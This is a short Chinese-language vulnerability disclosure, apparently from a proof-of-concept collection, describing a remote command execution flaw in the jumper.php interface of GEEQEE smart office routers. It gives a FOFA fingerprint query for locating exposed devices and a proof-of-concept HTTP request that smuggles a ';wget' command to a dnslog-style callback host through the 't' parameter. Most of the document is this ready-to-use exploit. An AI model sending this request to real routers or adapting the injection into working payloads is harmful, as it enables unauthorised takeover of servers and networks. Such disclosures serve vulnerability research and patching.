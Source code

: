 ## 极企智能办公路由接口jumper.php存在RCE漏洞

极企智能办公路由接口jumper.php存在命令执行漏洞，导致服务器权限沦陷。

## fofa

```
app="GEEQEE-极企智能办公路由"
```

## poc

```
GET /notice/jumper.php?t=;wget%20http://xxx.dnslog.cn HTTP/1.1
Host: 
Connection: keep-alive
```

